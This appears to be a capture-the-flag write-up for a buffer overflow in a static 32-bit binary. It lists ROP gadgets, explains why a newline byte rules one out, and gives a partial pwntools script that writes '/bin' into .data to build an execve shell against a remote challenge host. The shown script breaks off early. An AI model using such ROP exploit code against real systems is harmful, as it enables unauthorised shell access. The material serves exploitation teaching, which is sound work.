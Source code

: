Script/Command used (Writeup)
------------------
There's a buffer overflow vulnerability in `be_exploited`. However this is a static binary and all of the required libc functions are within this binary. Of course theres also no inclusion of a `system` function, but thats ok since we can always make an `execve` syscall. However there's also the issue that there's no /bin/sh string in the binary so we have to construct our own using gadgets. First we need a place where we can write data. Since there's no PIE we can just use a direct address to the .data segment  as shown by `readelf`:
```
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
                    .
                    .
                    .
  [20] .data             PROGBITS        080da060 091060 000f20 00  WA  0   0 32
```

Using `ropper` I identified some potential gadgets to use:
```
0x0805b67e: pop ebx; pop edi; ret;
0x08056114: pop eax; pop edx; pop ebx; ret;
0x0806ef51: xor ecx, ecx; int 0x80;

0x0809ceb4: mov dword ptr [eax], edx; ret; 
0x08056c45: mov dword ptr [edx], eax; ret; 
0x08064564: mov eax, edx; ret; 
0x0806eb8b: pop edx; ret; 
0x080a8cb6: pop eax; ret;
```

However we can't actually use that last gadget "pop eax; ret;" since its address 0x080a8cb6 has 0x0a in the 2nd most significant bit which is hex for the newline character which will cause `fgets` to stop reading input. So we have to use a bunch of movs to shuffle registers around which isn't as convenient but still works. The format for writing to .data looks like this:
```
payload += p32(0x0806eb8b) #pop edx; ret; 
payload += p32("4 letters of a string") # data to write
payload += p32(0x08064564) #mov eax, edx; ret;
payload += p32(0x0806eb8b) #pop edx; ret;
payload += p32(0x080da060+offset) #.data address plus offset into the string
payload += p32(0x08056c45) #mov dword ptr [edx], eax; ret; 
```

It's probably all better understood looking at the annotated source code for the exploit though:
```
from pwn import *

PROG_NAME = "./static"
REMOTE_IP = "plsdonthaq.me"
REMOTE_PORT = 6002

if args.REMOTE:
    p = remote(REMOTE_IP, REMOTE_PORT)
    elf = ELF(PROG_NAME)
else:
    p = process(PROG_NAME)
    elf = p.elf

payload = b'A'*0x10

# move /bin to .data
payload += p32(0x0806eb8b) #pop edx; ret; 
payload += p32(0x6e69622f) # /bin
payload += p32(0x08064564) #mov eax, edx; ret;
payload += p32(0x0806eb8b) #pop edx; ret;
payload += p32(0x080da060) #.data
payload += p32(0x08056c45) #mov dword ptr [edx], eax; ret; 
```